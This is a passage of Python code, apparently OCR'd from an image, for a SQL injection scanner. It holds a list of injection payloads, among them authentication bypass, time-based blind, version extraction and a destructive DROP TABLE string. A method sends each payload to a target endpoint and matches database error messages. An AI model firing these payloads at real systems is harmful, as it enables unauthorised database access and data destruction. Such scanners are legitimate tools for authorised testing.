```python
            ("1' UNION SELECT NULL--", "UNION injection test"),
            ("1'; DROP TABLE test--", "Command injection test"),
            ("1' AND SLEEP(5)--", "Time-based blind injection"),
            ("1' AND 1=1--", "Boolean-based blind injection"),
            ("admin'--", "Authentication bypass"),
            ("' OR 1=1#", "MySQL comment injection"),
            ("'; WAITFOR DELAY '00:00:05'--", "SQL Server time delay"),
            ("1' ORDER BY 1--", "Column enumeration"),
            ("1' AND @@version--", "Version disclosure"),
            ("-1' UNION SELECT @@version--", "Version extraction"),
            ("' HAVING 1=1--", "HAVING clause injection"),
            ("' GROUP BY 1--", "GROUP BY injection")
        ]
    
    def test_endpoint(self, endpoint, method='GET', data=None):
        """Test a single endpoint for SQL injection"""
        results = []
        url = urljoin(self.target_url, endpoint)
        
        for payload, description in self.test_payloads:
            if self.verbose:
                print(f"Testing: {description}")
            
            try:
                if method == 'GET':
                    # Test in query parameters
                    test_url = f"{url}?id={quote(payload)}"
                    start_time = time.time()
                    response = requests.get(test_url, timeout=10)
                    response_time = time.time() - start_time
                else:
                    # Test in POST body
                    test_data = {key: payload for key in (data or {'id': ''})}
                    start_time = time.time()
                    response = requests.post(url, data=test_data, timeout=10)
                    response_time = time.time() - start_time
                
                # Analyze response
                vulnerability_indicators = [
                    "sql syntax",
                    "mysql_fetch",
                    "ORA-01756",
                    "SQLServer",
                    "Incorrect syntax",
                    "Unclosed quotation mark",
                    "[Microsoft][ODBC SQL Server Driver]",
                    "Warning: mysql_",
                    "valid MySQL result",
                    "PostgreSQL query failed",
                    "Warning: pg_",
                    "column does not exist",
                    "the used select statements have different number of columns"
                ]
                
                is_vulnerable = False
                error_type = None
                
                # Check for SQL errors in response
                response_text = response.text.lower()
                for indicator in vulnerability_indicators:
                    if indicator.lower() in response_text:
                        is_vulnerable = True
                        error_type = indicator
```
